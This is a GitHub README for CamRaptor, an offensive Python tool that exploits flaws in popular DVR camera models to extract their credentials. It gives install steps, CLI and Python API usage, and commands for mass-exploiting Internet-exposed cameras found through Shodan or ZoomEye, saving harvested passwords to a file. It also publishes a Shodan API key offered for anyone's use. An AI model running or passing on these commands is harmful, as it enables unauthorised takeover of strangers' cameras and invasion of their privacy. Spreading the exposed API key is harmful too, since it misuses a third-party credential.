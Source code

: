 # CamRaptor

<p>
    <a href="https://entysec.com">
        <img src="https://img.shields.io/badge/developer-EntySec-blue.svg">
    </a>
    <a href="https://github.com/EntySec/CamRaptor">
        <img src="https://img.shields.io/badge/language-Python-blue.svg">
    </a>
    <a href="https://github.com/EntySec/CamRaptor/forks">
        <img src="https://img.shields.io/github/forks/EntySec/CamRaptor?color=green">
    </a>
    <a href="https://github.com/EntySec/CamRaptor/stargazers">
        <img src="https://img.shields.io/github/stars/EntySec/CamRaptor?color=yellow">
    </a>
    <a href="https://www.codefactor.io/repository/github/EntySec/CamRaptor">
        <img src="https://www.codefactor.io/repository/github/EntySec/CamRaptor/badge" />
    </a>
</p>

CamRaptor is a tool that exploits several vulnerabilities in popular DVR cameras to obtain network camera credentials.

## Features

* Exploits vulnerabilities in most popular camera models such as `Novo`, `CeNova` and `QSee`.
* Optimized to exploit multiple cameras at one time from list with threading enabled.
* Simple CLI and API usage.

## Installation

```shell
pip3 install git+https://github.com/EntySec/CamRaptor
```

## Basic usage

To use CamRaptor just type `camraptor` in your terminal.

```
usage: camraptor [-h] [-t] [-o OUTPUT] [-i INPUT] [-a ADDRESS]
                 [--shodan SHODAN] [--zoomeye ZOOMEYE] [-p PAGES]

CamRaptor is a tool that exploits several vulnerabilities in popular DVR
cameras to obtain network camera credentials.

optional arguments:
  -h, --help            show this help message and exit
  -t, --threads         Use threads for fastest work.
  -o OUTPUT, --output OUTPUT
                        Output result to file.
  -i INPUT, --input INPUT
                        Input file of addresses.
  -a ADDRESS, --address ADDRESS
                        Single address.
  --shodan SHODAN       Shodan API key for exploiting devices over Internet.
  --zoomeye ZOOMEYE     ZoomEye API key for exploiting devices over Internet.
  -p PAGES, --pages PAGES
                        Number of pages you want to get from ZoomEye.
```

### Examples

**Exploiting single camera**

Let's hack my camera just for fun.

```shell
camraptor -a 192.168.99.100
```

**Exploiting cameras from Internet**

Let's try to use Shodan search engine to exploit cameras over Internet, we will use it with `-t` for fast exploitation.

```shell
camraptor -t --shodan PSKINdQe1GyxGgecYz2191H2JoS9qvgD
```

**NOTE:** Given Shodan API key (`PSKINdQe1GyxGgecYz2191H2JoS9qvgD`) is my PRO API key, you can use this key or your own, be free to use all our resources for free :)

**Exploiting cameras from input file**

Let's try to use opened database of cameras with `-t` for fast exploitation.

```shell
camraptor -t -i cameras.txt -o passwords.txt
```

**NOTE:** It will exploit all cameras in `cameras.txt` list by their addresses and save all obtained passwords to `passwords.txt`.

## API usage

CamRaptor also has their own Python API that can be invoked by importing CamRaptor to your code.

```python
from camraptor import CamRaptor
```

### Basic functions

There are all CamRaptor basic functions that can be used to exploit specified camera.

* `exploit(address)` - Exploit single camera by given address.

### Examples

**Exploiting single camera**

```python
from camraptor import CamRaptor

camraptor = CamRaptor()
creds = camraptor.exploit('192.168.99.100')

print(creds)
```
